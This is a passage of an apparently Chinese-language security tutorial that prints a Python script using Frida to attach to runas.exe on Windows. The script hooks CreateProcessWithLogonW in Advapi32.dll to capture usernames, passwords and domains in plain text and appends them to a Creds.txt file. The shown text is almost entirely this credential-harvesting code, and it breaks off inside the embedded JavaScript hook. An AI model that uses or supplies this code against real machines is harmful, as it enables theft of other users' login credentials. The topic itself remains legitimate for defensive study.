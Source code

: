 ```
```

现在，剩下的工作就是将 JavaScript 片段插入到一个 python 脚本中，最终的 python 脚本如下所示：

```
# Wrriten by Ilan Kalendarov

from __future__ import print_function
import frida
from time import sleep
import psutil
from threading import Lock, Thread

# Locking the runas thread to prevent other threads

#interfering with our current session
lockRunas = Lock()  

def on_message_runas(message, data):
  # Executes when the user enters the password.
  # Then, open the txt file and append the data.
  print(message)
  if message['type'] == "send":
    with open("Creds.txt", "a") as f:
      f.write(message["payload"] + '\n')
    try:
      lockRunas.release()
      print("[+] released")
    except Exception:
      pass


def WaitForRunAs():
  while True:
    # Trying to find if runas is running if so, execute the "RunAs" function.
    if ("runas.exe" in (p.name() for p in psutil.process_iter())) and not lockRunas.locked():
      lockRunas.acquire() # Locking the runas thread
      print("[+] Found RunAs")
      RunAs()
      sleep(0.5)

    # If the user regret and they "ctrl+c" from runas then release the thread lock and start over.
    elif (not "runas.exe" in (p.name() for p in psutil.process_iter())) and lockRunas.locked():
      lockRunas.release()
      print("[+] Runas is dead releasing lock")
    else:
      pass
    sleep(0.5)

def RunAs():
  try:
    # Attaching to the runas process
    print("[+] Trying To Attach To Runas")
    session = frida.attach("runas.exe")
    print("[+] Attached runas!")

    # Executing the following javascript
    # We Listen to the CreateProcessWithLogonW func from Advapi32.dll to catch the username,password,domain and the executing program       in plain text.
    script = session.create_script("""
  
    var CreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW') // exporting the function from     the dll library
```
